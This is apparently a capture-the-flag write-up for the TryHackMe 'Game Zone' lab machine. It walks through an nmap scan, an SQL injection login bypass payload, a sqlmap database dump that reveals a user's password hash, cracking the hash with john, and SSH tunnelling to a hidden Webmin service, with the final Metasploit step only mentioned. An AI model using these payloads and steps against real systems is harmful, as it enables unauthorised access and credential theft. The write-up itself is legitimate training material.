







# [Game Zone](https://tryhackme.com/room/gamezone)
# Enumeration
Starting with nmap scan 
```
sudo nmap -p- -T4 -sV -sC 10.130.161.130
```
**nmap scan result**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is HTTP server opened on port `tcp/80` . There is login page we will try simple SQLI to username and password .

First trying password `' or 1=1 -- -` this query return true always because SQL query now is like

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

It failed because there is no username called admin in database so I will try it with username

```sql
SELECT * FROM users WHERE username = ' or 1=1 -- - AND password := 
```

We gained login access .

# Using SQL map to dump database

First we need to make request in search bar then intercept it with *BurpSuite* and save it into text file `req.txt`.


then using *sqlmap* we will dump this site database .
```bash
python3 sqlmap.py -r file.txt --dbms=mysql --dump
```

**sqlmap result**
```
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```

# Hashing password with john the ripper 
After we found this hash above we will crack it with john.

**Find hash format**
using hashidentifier hash format is SHA256 , with no salt .

**Cracking hash**
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha256
```

Finally we found password `videogamer124` and we have username `agent47` . We can use it to connect via SSH.



# Service Blocked
Using command 
```bash
ss -ltupn
```
we can find blocked service on port 10000 so we will use SSH tunneling to access it.
```
attacker$ ssh -L 10000:localhost:10000 agent47@10.130.161.130
```


Now we have access to service we can login.



Searching for vulnerability on this webine version we found



So we will execute it via *metasploit* 
**Metasploit options and payload**



# Privilege escalation
We already have root privilege 




